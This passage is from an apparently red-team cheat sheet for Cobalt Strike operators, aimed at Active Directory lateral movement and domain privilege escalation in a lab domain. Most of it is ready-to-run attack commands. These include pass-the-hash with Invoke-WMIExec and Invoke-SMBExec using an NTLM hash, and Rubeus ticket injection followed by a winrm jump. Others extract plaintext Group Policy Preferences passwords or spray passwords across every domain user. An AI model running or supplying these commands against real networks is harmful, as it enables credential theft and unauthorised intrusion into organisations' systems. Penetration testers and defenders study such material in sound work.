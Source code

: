 [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) - PS tools to perform SMB and WMI pass-the-hash attacks
```
powershell-import 
powerpick Invoke-WMIExec -Target 192.168.100.20 -Domain LAB.com -Username TEST -Hash F6F38B793DB6A94BA04A52F1D3EE92F0 -Command "command or launcher to execute" -verbose
powerpick Invoke-SMBExec -Target 192.168.100.20 -Domain LAB.com -Username TEST -Hash F6F38B793DB6A94BA04A52F1D3EE92F0 -Command "command or launcher to execute" -verbose
```

Over-pass-the-hash with Rubeus
Inject a ticket into memory using known credentials and then move to a system that user has access to
```
# Revert to original token in CS
rev2self
# Inject new ticket into memory
execute-assembly C:\Rubeus.exe asktgt /domain:lab.com /user:admin1 /rc4:<NTLM hash> /ptt
# Run network commands as that user
jump winrm64 jumpbox.lab.com
```

[Move Kit](https://github.com/0xthirteen/MoveKit)
Aggressor script using execute-assembly, SharpMove and SharpRPD assemblies for doing lateral movement with various techniques

------------------------------------------------------------------------------------------
## Domain Privilege Escalation
### GPP Passwords
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) PowerSploit module
```
# Get-GPPPassword Searches a domain controller for groups.xml, scheduledtasks.xml, services.xml and datasources.xml and returns plaintext passwords
powershell-import --> Get-GPPPassword.ps1
powerpick Get-GPPPassword -Server ops-dc01.lab.com
```
[Net-GPPPassword](https://github.com/outflanknl/Net-GPPPassword) .NET port of get-gpppassword
```
execute-assembly C:\Net-GPPPassword.exe lab.com
```
[Get-GPPAutologon.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPAutologon.ps1) PowerSploit module
```
# Get-GPPAutologn searches the domain controller for registry.xml to find autologon information and returns the username and password
powershell-import --> Get-GPPAutologon.ps1
powerpick Get-GPPAutolgon
```

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
powershell-import --> DomainPasswordSpray.ps1
# Get the full domain user list (Optional)
powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

# Password spray from a username and password list
powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

# Auto spray a specific password on an auto-generated user list (very noisy)
powershell Invoke-DomainPasswordSpray -Password Summer2021
```